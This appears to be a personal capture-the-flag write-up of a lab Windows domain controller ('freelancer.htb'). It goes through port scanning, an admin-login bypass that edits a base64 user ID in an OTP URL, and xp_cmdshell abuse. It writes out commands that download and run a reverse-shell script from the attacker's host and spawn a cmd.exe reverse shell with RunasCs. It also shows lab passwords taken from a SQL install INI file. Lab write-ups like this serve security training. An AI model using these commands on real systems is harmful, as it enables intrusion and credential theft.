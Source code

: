 
# ipaddr  `10.10.11.5`

# Date 08-06-24 || Rohit Tiwari

> Nmap scan

```<>
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          nginx 1.25.5
|_http-server-header: nginx/1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-08 11:39:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-08T11:39:34
|_  start_date: N/A
|_clock-skew: 4h59m59s

Service detection performed. Please report any incorrect resu
```

# PORT 80

>On port 80 found a simple website hosted on `nginx 1.25.5`

![](Attachments/Pasted%20image%2020240608121403.png)

> Tried several method but no use

### Okay this authentication part looks interesting

![](Attachments/Pasted%20image%2020240608130511.png)




Okay after that created a account as freelancer with username "Dedrknex" & Pass="Password@123" got access but nothig useful

![](Attachments/Pasted%20image%2020240608131516.png)

Tried uploading rev shell to profile pic but didn't  work


> Now again registerd to employer portal with `user=Devilrk & pass=NPassword@123`
> And tried login but cannot as it need verification...So reset the passwd an luckily got into the employer section

![](Attachments/Pasted%20image%2020240608132644.png)

>Okay so found a qr code scanner page don't know what to do with it

![](Attachments/Pasted%20image%2020240608133351.png)

okay so searched using google lens found 
![](Attachments/Pasted%20image%2020240608133933.png)

# http://freelancer.htb/accounts/login/otp/MTAwMjM=/baf68992a6b344d9f4ed0f8f6971b253/


> Okay found admin name 

![](Attachments/Pasted%20image%2020240608135339.png)

> Okay so the above link `http://freelancer.htb/accounts/login/otp/MTAwMjM=/baf68992a6b344d9f4ed0f8f6971b253/` i break it down upto is link where verification is need ed then MTAwMjM= is prfile no in that case is  10023 used cyberchef to decode it found 


![](Attachments/Pasted%20image%2020240608140951.png)


on figuring to out to profile by check blogs and enumerating comments found this

![](Attachments/Pasted%20image%2020240608141037.png)


>Now for admin the profile num is 2 or it would be if four digite then 0002


so figured out admin will be Mg=

![](Attachments/Pasted%20image%2020240608142816.png)

pasted the url again from qr-code changed admin id Mgo= got access toa dmin page

![](Attachments/Pasted%20image%2020240608143144.png)

#  /admin

>Then moved to /admin page
>![](Attachments/Pasted%20image%2020240608143710.png)
> 	

> Now time to some research on how to extract pass or a shell

got some command to use : `https://gist.github.com/ashish2199/8ad29d80f3195ce3166bee55b2624653`

![](Attachments/Pasted%20image%2020240608234821.png)
`Select * from INFORMATION_SCHEMA.KEY_COLUMN_USAGE;`

![](Attachments/Pasted%20image%2020240608234856.png)

#### So created a revshell and upload it to sql server got revershell
![](Attachments/Pasted%20image%2020240609003447.png)

command `EXEC xp_cmdshell 'powershell -c "IEX (iwr -usebasicparsing http://10.10.16.11:80/revshell.ps1)"'`

![](Attachments/Pasted%20image%2020240609003431.png)

## Found cred

```<>
Directory: C:\Users\sql_svc\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/27/2024   1:52 PM                SQLEXPR-2019_x64_ENU                                                  
SHELL> cd  SQLEXPR-2019_x64_ENU
SHELL> ls


    Directory: C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/27/2024   1:52 PM                1033_ENU_LP                                                           
d-----        5/27/2024   1:52 PM                redist                                                                
d-----        5/27/2024   1:52 PM                resources                                                             
d-----        5/27/2024   1:52 PM                x64                                                                   
-a----        9/24/2019   9:00 PM             45 AUTORUN.INF                                                           
-a----        9/24/2019   9:00 PM            784 MEDIAINFO.XML                                                         
-a----        9/29/2023   4:49 AM             16 PackageId.dat                                                         
-a----        9/24/2019   9:00 PM         142944 SETUP.EXE                                                             
-a----        9/24/2019   9:00 PM            486 SETUP.EXE.CONFIG                                                      
-a----        5/27/2024   4:58 PM            724 sql-Configuration.INI                                                 
-a----        9/24/2019   9:00 PM         249448 SQLSETUPBOOTSTRAPPER.DLL                                              


SHELL> type sql-Configuration.INI
```

got passwordss

```<>
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True

```

now use crackmapexec to get verfication of the credential

![](Attachments/Pasted%20image%2020240609113839.png)

#### Runas utility

Run runasCs.exe to  run as user misckarman

```bash
SHELL> curl http://10.10.16.11:80/RunasCs.exe -o RunasCs.exe
SHELL> ls


    Directory: C:\Users\sql_svc\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/27/2024   1:52 PM                SQLEXPR-2019_x64_ENU                                                  
-a----         6/9/2024   7:42 AM          51712 RunasCs.exe                                                           


SHELL> .\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.16.11:2929

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4996a$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 5836 created in background.
SHELL>
```

![](Attachments/Pasted%20image%2020240609121454.png)


Got User.txt


> Found memory dump

```bash
C:\Users\mikasaAckerman\Desktop>type mail.txt	
type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```
# SMB PORT 445

>Tried smb but no luck then moved to crackmapexec so to enumerate shares or pass-pol got nothing

